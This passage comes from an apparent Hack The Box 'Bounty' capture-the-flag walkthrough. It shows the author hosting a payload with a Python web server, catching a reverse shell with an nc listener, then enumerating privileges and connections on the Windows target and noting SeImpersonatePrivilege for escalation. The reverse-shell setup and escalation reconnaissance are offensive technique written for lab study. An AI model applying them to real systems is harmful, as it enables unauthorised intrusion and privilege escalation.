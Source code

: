 ``` 
Response.write(o)
%>
```


So we need to set up our listener, and our webserver.


```
kali@kali:~/htb/Bounty$ sudo python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
```

and 

```
kali@kali:~/htb/Bounty$ sudo nc -nlvp 1337
Listening on 0.0.0.0 1337
```

We get a connection:

```
kali@kali:~/htb/Bounty$ sudo nc -nlvp 1337
Listening on 0.0.0.0 1337
Connection received on 10.129.90.62 49158
whoami
bounty\merlin
# whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
#
```

We have the SeImpersonatePrivilege, so we might be able to do some token impersonation to get root.

```
# netstat -nat

Active Connections

  Proto  Local Address          Foreign Address        State           Offload State

  TCP    0.0.0.0:80             0.0.0.0:0              LISTENING       InHost      
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       InHost      
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       InHost      
  TCP    0.0.0.0:47001          0.0.0.0:0              LISTENING       InHost      
  TCP    0.0.0.0:49152          0.0.0.0:0              LISTENING       InHost      
  TCP    0.0.0.0:49153          0.0.0.0:0              LISTENING       InHost      
  TCP    0.0.0.0:49154          0.0.0.0:0              LISTENING       InHost      
  TCP    0.0.0.0:49155          0.0.0.0:0              LISTENING       InHost      
  TCP    0.0.0.0:49156          0.0.0.0:0              LISTENING       InHost      
  TCP    10.129.90.62:80        10.10.14.69:49970      CLOSE_WAIT      InHost      
  TCP    10.129.90.62:80        10.10.14.69:49982      CLOSE_WAIT      InHost      
  TCP    10.129.90.62:80        10.10.14.69:49984      ESTABLISHED     InHost      
  TCP    10.129.90.62:139       0.0.0.0:0              LISTENING       InHost      
  TCP    10.129.90.62:49158     10.10.14.69:1337       ESTABLISHED     InHost      
  TCP    [::]:80                [::]:0                 LISTENING       InHost      
  TCP    [::]:135               [::]:0                 LISTENING       InHost      
```
